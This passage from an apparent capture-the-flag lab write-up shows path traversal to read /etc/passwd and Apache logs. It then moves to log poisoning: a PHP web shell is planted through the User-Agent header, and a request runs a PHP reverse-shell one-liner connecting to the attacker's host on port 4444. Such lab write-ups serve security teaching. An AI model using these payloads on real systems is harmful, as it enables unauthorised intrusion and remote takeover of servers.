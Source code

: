 This gives us the contents of the `/etc/passwd` file!

Looking at the contents, we do not find anything out of the blue. What to do next? Well time for a reverse shell. The question is, how do we setup one?


The answer is using `Apache Log Poisoning`.

`http://10.10.152.133/?view=dog/../../../../../var/log/apache2/access.log&ext=`


The below is what we find in the logs
```
127.0.0.1 - - [04/Mar/2021:02:58:39 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:02:59:15 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:02:59:57 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:00:36 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:01:16 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:01:56 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 10.8.150.214 - - [04/Mar/2021:03:02:00 +0000] "GET / HTTP/1.1" 200 537 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" 10.8.150.214 - - [04/Mar/2021:03:02:00 +0000] "GET /style.css HTTP/1.1" 200 698 "http://10.10.124.216/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" 10.8.150.214 - - [04/Mar/2021:03:02:01 +0000] "GET /favicon.ico HTTP/1.1" 404 492 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" 10.8.150.214 - - [04/Mar/2021:03:02:14 +0000] "GET /?view=dog/../../../../../var/log/apache2/access.log&ext= HTTP/1.1" 200 775 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" 127.0.0.1 - - [04/Mar/2021:03:02:32 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:03:08 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:03:43 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:04:19 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:04:55 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0" 127.0.0.1 - - [04/Mar/2021:03:05:26 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"  
```

The below is what kind of user-requests looks like (I opened up burpsuite)
```
GET /?view=dog/../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.124.216
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Lets put the ability to put commands as: `<?php system((isset($_GET['c']))?$_GET['c']:'echo'); ?>:

Thus, using it as: 
```
GET /?view=dog&c=php%20-r%20'$sock=fsockopen(%2210.8.150.214%22,4444);exec(%22/bin/sh%20-i%20%3C&3%20%3E&3%202%3E&3%22); HTTP/1.1
Host: 10.10.124.216
User-Agent: %3C?php%20system((isset($_GET%5B'c'%5D))?$_GET%5B'c'%5D:'echo');%20?%3E%0A
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
